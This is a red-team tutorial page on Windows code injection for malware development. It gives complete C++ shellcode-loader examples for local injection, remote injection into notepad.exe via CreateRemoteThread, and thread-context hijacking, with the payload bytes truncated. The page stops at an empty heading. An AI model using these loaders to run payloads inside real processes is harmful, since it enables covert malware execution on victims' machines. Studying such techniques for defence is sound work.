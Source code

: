 ```yaml
---
title: Introduction
category: Maldev-Code Injection
order: 1
---
```


Is a technique useful to escape from short-lived process or to change the working context.

> **Note**: You can't see the output of the payload injected on other process.

There are different techniques, the most common are payload injection and dll injection. The payload can be injected on a different process or in the current process.


# Local Classic Technique (VirtualAlloc)

The behavior of a local classic injection:

* `VirtualAlloc`: Create a memory space to store our payload. Normally the buffer is created with `PAGE_READWRITE` rights.
* `RtlMoveMemory`: Copy the payload to the new allocated space.
* `VirtualProtect`: Change the protection to `PAGE_READEXECUTE`.
* `CreateThread`: Execute the payload.

Example of local injection:

![](/rtnotes/images/classic-injection.png)


```cpp
int main(int argc, char ** argv) {

    LPVOID pexec;
    HANDLE hThread;
    BOOL rv;
    DWORD oldprotect;

    char payload[] = {0xfc, 0x48, 0x83,...};


    pexec = VirtualAlloc(0, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(pexec, payload, sizeof(payload));
    rv = VirtualProtect(pexec, sizeof(payload), PAGE_EXECUTE_READ, &oldprotect);
    if(rv){
        hThread = CreateThread(0,0, (LPTHREAD_START_ROUTINE)pexec, 0,0,0);
        WaitForSingleObject(hThread, -1);
    }
    CloseHandle(hThread);
    return 0;
}
```

# Remote Classic Technique (VirtualAllocEx)

The behavior of a remote classic injection:

* `VirtualAlllocEx`: Create a memory space to store our payload on a process. Normally the buffer is created with `PAGE_READWRITE` rights.
* `WriteProcessMemory`: Copy the payload to the new allocated space.
* `VirtualProtectEx`: Change the protection to `PAGE_READEXECUTE`.
* `CreateRemoteThread`, `RtlCreateUserThread` or `NtCreateThreadEx`: Execute the payload.

Example of remote injection:

```cpp
int main(void) {
    
    int pid = 0;
    HANDLE hProc = NULL;
    LPVOID pexec = NULL;
    HANDLE hThread = NULL;
    DWORD oldprotect;
    char payload[] = {0xfc, 0x48, 0x83,...};
    int payload_len = sizeof(payload);

    pid = FindProcess("notepad.exe");

    if (pid) {
        printf("Notepad.exe PID = %d\n", pid);

        // try to open target process
        hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
                        PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
                        FALSE, (DWORD) pid);

        if (hProc != NULL) {
            pexec = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_READWRITE);
            WriteProcessMemory(hProc, pexec, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);
            VirtualProtectEx(hProc, pexec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
            hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)pexec, NULL, 0, NULL);
            if(hThread != NULL){
                WaitForSingleObject(hThread, -1);
                CloseHandle(hThread);
            }
            CloseHandle(hProc);
        }
    }
    return 0;
}
```

Check *Object Enumeration - Process Enumeration* section to get more info about `FindProcess`:

* [https://benjugat.github.io/rtnotes/malware/object-enumeration/processes/](https://benjugat.github.io/rtnotes/malware/object-enumeration/processes/)


# Thread Context Injection

Instead of create a new thread on the target process we can get an existing one, suspend it, modify the EIP or RIP (next instruction pointer) specifying our payload and resume the thread.

> **Note**: Since we are hijacking the thread, we will break the process. **IT WILL CRASH THE PROCESS**.

The behavior of a thread context injection:

* `OpenProcess`, `OpenThread`: Obtain a thread handle from a remote process.
* `VirtualAllocEx`: Allocate memory space for our payload with `PAGE_READWRITE` rights.
* `WriteProcessMemory`: Copy the payload to the new allocated space.
* `VirtualProtectEx`: Change the rights to `PAGE_EXECUTE_READ` of the new allocated space.
* `SuspendThread`: Suspend the thread.
* `GetThreadContext`: Get all the Context of the suspended thread.
* `SetThreadContext`: Change the next instruction pointer (EIP or RIP) to our allocated memory space.
* `ResumeThread`: Execute the payload.

Example of thread context injection.

```cpp
int main(void) {
    
    int pid = 0;
    HANDLE hProc = NULL;
    LPVOID pexec = NULL;
    HANDLE hThread = NULL;
    DWORD oldprotect;
    char payload[] = {0xfc, 0x48, ...};
    int payload_len = sizeof(payload);
    CONTEXT ctx;
    pid = FindProcess("notepad.exe");

    if (pid) {
        printf("Notepad.exe PID = %d\n", pid);

        // try to open target process
        hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
                        PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
                        FALSE, (DWORD) pid);

        if (hProc != NULL) {
            hThread = FindThread(pid);
            if(hThread != NULL){
                pexec = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_READWRITE); 
                WriteProcessMemory(hProc, pexec, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);
                VirtualProtectEx(hProc, pexec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
                ctx.ContextFlags = CONTEXT_FULL;
                SuspendThread(hThread);
                GetThreadContext(hThread, &ctx);
            #ifdef _M_IX86 
	            ctx.Eip = (DWORD_PTR) pexec;
            #else
	            ctx.Rip = (DWORD_PTR) pexec;
            #endif
                SetThreadContext(hThread, &ctx);
                ResumeThread(hThread);
                
            }
            CloseHandle(hThread);
        }
        CloseHandle(hProc);    
    }
    return 0;
}
```

Check *Object Enumeration*-> *Process Enumeration* and *Thread Enumeration* sections to get more info about `FindProcess`:

* [https://benjugat.github.io/rtnotes/malware/object-enumeration/processes/](https://benjugat.github.io/rtnotes/malware/object-enumeration/processes/)
* [https://benjugat.github.io/rtnotes/malware/object-enumeration/threads/](https://benjugat.github.io/rtnotes/malware/object-enumeration/threads/)


# Alternatives to CreateThread